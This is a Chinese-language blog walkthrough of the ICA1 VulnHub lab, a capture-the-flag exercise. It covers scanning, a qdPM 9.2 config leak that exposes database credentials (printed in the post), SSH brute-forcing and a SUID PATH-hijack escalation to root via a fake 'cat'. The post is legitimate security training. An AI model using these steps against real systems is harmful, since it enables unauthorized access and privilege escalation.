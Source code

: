 ```yaml
---
title: ICA1 VulnHub Walkthrough
date: 2021-11-01 14:35:38
categories:
- 渗透测试
tags:
- VulnHub
---
```


## ICA1 VulnHub Walkthrough

#### 主机发现

```
arp-scan -l
```

![](https://i.loli.net/2021/11/01/DtOf6MJVR5ndoGe.png)

#### 端口扫描

```
nmap -Pn -p- 192.168.62.182
```

![](https://i.loli.net/2021/11/01/xCtO6cIAsQMSLDi.png)

开放了22、80、3306端口

访问80端口，是一个登录界面

<img src="https://i.loli.net/2021/11/01/1ejgDTcrmNXdtRw.png" style="zoom:80%;" />

qdPM是一个开源的项目管理系统，基于[Symfony](http://www.oschina.net/p/symfony)框架+PHP/MySQL开发，可以看到qdPM的版本为9.2

搜索一下exploit-db看看有没有公开的exp

![](https://i.loli.net/2021/11/01/yZIxHGg2QtN9LiS.png)

可以看到这个版本存在数据库敏感信息泄露，可以未授权获取数据库连接信息和密码

看一下利用方式

![](https://i.loli.net/2021/11/01/6NC3oaG9FzRYWrl.png)

我们可以通过访问`http://<website>/core/config/databases.yml`来下载包含数据库连接信息和密码的yml文件

<img src="https://i.loli.net/2021/11/01/4WVgx7HBS19dC2P.png" style="zoom:80%;" />

通过访问`http://192.168.62.182/core/config/databases.yml`成功得到了数据库的用户名和密码`qdpmadmin:UcVQCMQk2STVeS6J`

接下来尝试登录数据库，进一步获取敏感信息

```
mysql -u qdpmadmin -h 192.168.62.182 -p
```

<img src="https://i.loli.net/2021/11/01/CGJbOxwdtpsjXzD.png" style="zoom:80%;" />

在`staff`数据库中找到了五组用户名和密码，密码是经过编码加密的

<img src="https://i.loli.net/2021/11/01/wFHBokpdDs89Aj3.png" style="zoom:80%;" />

将经过base64编码的密码字符串解码一下，记录到一个文本中

![](https://i.loli.net/2021/11/01/QaPujeoxcKYhXGm.png)

将用户名也记录到一个文本中

![](https://i.loli.net/2021/11/01/ljuvOXPLYSUmhd5.png)

用账户密码来爆破80端口的登陆界面无果，只能尝试爆破22端口了

![](https://i.loli.net/2021/11/01/cskMQEIqhPKT2fY.png)

![](https://i.loli.net/2021/11/01/rUxToiE435wZ62q.png)

成功得到了两组ssh的用户名和密码，尝试登录ssh

先登录`travis`账号，获取到了第一个flag

![](https://i.loli.net/2021/11/01/tCaRQhxnyWjlABZ.png)

再登录`dexter`，看到有提示，应该是要利用可执行文件来提权

<img src="https://i.loli.net/2021/11/01/i5gulQ2FmUo9j6b.png" style="zoom: 80%;" />

先查看一下有执行权限的文件

```
find / -perm -u=s 2>/dev/null
```

![](https://i.loli.net/2021/11/01/o3u5HCDSTckYPmG.png)

用strings查看一下`/opt/get_access`

![](https://i.loli.net/2021/11/01/BsXuYOF3ymfWdNl.png)

可以推测执行`/opt/get_access`时会进行`setuid`操作，接着会执行`cat`命令

为了证明我们的推测，我们对`get_access`进行反编译，我们通过伪代码可以比较清晰地看到，当执行`get_access`时会执行`setuid(0)`，再执行`cat`命令打印系统信息,并且执行的`cat`命令是没有指定路径的

<img src="https://i.loli.net/2021/11/01/x7yHcPQhgoUrDG2.png" style="zoom: 80%;" />

接下来我们可以通过伪造一个文件名为`cat`的可执行文件，文件内容为`/bin/bash`，并将文件路径设置为环境变量，这样执行`get_access`的时候，就会执行我们伪造的`cat`文件，从而使我们获得root权限

```
echo '/bin/bash' > /tmp/cat
chmod +x /tmp/cat 
echo $PATH
export PATH=/tmp:$PATH
/opt/get_access
```

![](https://i.loli.net/2021/11/01/z4WNPo1MdavIbrs.png)

我们已经成功得到了root权限，最后我们通过`more`命令获取第二个flag

![](https://i.loli.net/2021/11/01/yciWRaIrQzpNfk3.png)
